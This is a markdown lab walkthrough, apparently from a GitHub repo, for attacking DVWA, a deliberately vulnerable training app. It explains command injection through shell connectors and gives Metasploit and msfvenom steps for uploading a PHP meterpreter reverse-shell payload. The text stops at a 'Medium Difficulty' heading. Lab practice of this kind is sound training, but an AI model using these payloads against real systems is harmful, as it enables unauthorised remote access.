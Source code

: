 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you'll be able to run commands on it.

Run `````msfconsole```` and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options`````to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ````exploit```` in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

